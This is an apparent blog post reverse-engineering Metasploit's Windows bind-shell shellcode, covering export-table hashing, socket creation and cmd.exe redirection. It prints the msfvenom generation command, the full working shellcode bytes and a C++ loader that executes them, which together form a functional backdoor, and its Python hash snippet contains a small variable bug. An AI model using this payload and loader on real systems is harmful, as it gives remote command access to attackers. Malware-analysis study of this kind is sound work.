

# Reversing MSFVenom ShellCodes

For those of you that don't know what Msfvenom is:

> Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

Msfvenom is part of the popular Metasploit Framework. For a long time I wanted to dive deep into the different payload it produces and see how it works under the hood.

## Creating the payload

Payload could be created by using the msfvenom command, make sure Metasploit framework is installed.

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`

Output:

```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

## Writing the wrapper

All we need to do is to allocate memory for the shellcode and transfer the execution to it's starting point.

```cpp
#include <Windows.h>

int main() {
	unsigned char shellcode[] = "...";

	PVOID shellcode_exec = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	
	if (shellcode_exec) {
		RtlCopyMemory(shellcode_exec, shellcode, sizeof(shellcode));
		DWORD dwThreadId;
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &dwThreadId);
		if (hThread != 0) {
			WaitForSingleObject(hThread, INFINITE);
		}
	}

	return 0;
}
```

By creating an application which will run the shellcode we could attach a debugger to the shellcode in case we need to check the shellcode dynamically.

## Assembly analysis

### Find required functions

Loading the shellcode into IDA we can see that it first calls to another function:


Peeking inside we see the following:


We can understand that the main function gets 2 arguments, an unknown hex value and a string pointer. We'll keep that in mind and go back to the main function.

For some of you the next instructions will be familiar, the shellcode is parsing the export table looking for specific exported function. 

First, it creates a hash to the module name:


The hashing algorithm is pretty basic: 
1. Transform module name to uppercase
2. ROR13 to each character
3. Add character hex to the result

We can write simple python script that does exactly the same:

```python
def ror(dword, bits):
    return (dword >> bits | dword << (32 - bits)) & 0xFFFFFFFF

def unicode(string, uppercase=True):
    result = ''
    if uppercase:
        string = string.upper()
    for c in string:
        result += c + '\x00'
    return result

def cal_hash(name, bits=13):
    hash = 0
    
    for c in unicode(module + '\x00'):
        hash = ror(hash, bits)
        hash += ord(c)

    print(hash)
```

Moving on we see that the shellcode uses the same ROR13 hashing algorithm for the function names:


We can divide the above image into 3 sections:

1. Getting the functions names - this could be done by parsing the PE headers of the DLL pointer by `_LDR_DATA_TABLE_ENTRY->DllBase`.
2. Hash the function name - using ROR13 without uppercasing
3. Compare the result with what we are looking for

At this point we figures what the unknown value we pushed earlier to the stack means. The value is a `hash(module_name) + hash(function_name)`. If we want to reveal what function we are searching for we have 2 options:

1. Create a python script that calculates the hashes for known functions and comparing the results with the hashes in our executable.
2. Using the debugger - place a breakpoint right after the loop and continue execution:


We can see that `esi` holds the value `LoadLibraryExA`. BUT! that's not the function we looked for, if you'll notice, `esi` moved to the next function before the comparison so we need the function exported before `LoadLibraryExA` which is, `LoadLibraryA`.

*NOTE: You can repeat the same process and find the rest functions.*

Ok, now we want to know what the shellcode does with the found function? 



First, the shellcode finds the address of the function using a pointer to the export table saved earlier. 

Next, the stack need to be fixed before calling the found function. Recall that before jumping back the the main function we pushed the hash and a string to the stack, we need to pop them out and fix more changes that we've done during the parsing. One of the changes is to fix the return address, we need that the function will return to the previous function.

Now, the shellcode can call the function.

### Creating socket

Going back to the first function call, we can understand what's going on much easier than before:


All that this code section does is to create a communication socket to the desired `LPORT` that we'll use later.

The socket creation flow in pseudo-C:

```c
LoadLibraryA("ws2_32");
WSAStartup(0x0190, &WSAData);
WSASocketA(AF_INET, SOCK_STREAM, 0, 0, 0, 0);
bind(socket, &sockaddr_in, 0x10);
listen(socket, 0);
new_socket = accept(socket, 0, 0);
closesocket(socket); // close listening socket
```

### Shell setup

After creating a socket the shellcode create a shell to the infected system using the following code:


It creates new cmd.exe process and sets the input, output and error streams to be the socket created earlier. That way, the attacker could run commands from the other end of the socket.

At the end, the shellcode waits until the shell closes and exit the program:


It chooses the appropriate exit function by querying the system's version.

## Analysis of other shellcodes

Now that we have good understanding about how `windows/shell_bind_tcp` works under the hood it will be easier for us to investigate other types of shellcodes, for example `windows/shell_reverse_tcp`. The main difference between the two is the way that the socket being created:


# Conclusion

We've learned about 2 different shellcode produced by Metasploit framework, `windows/shell_bind_tcp` and `windows/shell_reverse_tcp`. We started by understanding the functions obfuscation and execution using python/x64dbg, then, we investigated how the socket is being created and lastly how we get a command shell on the infected system.

How you found this blog post informative, see you in the next time :)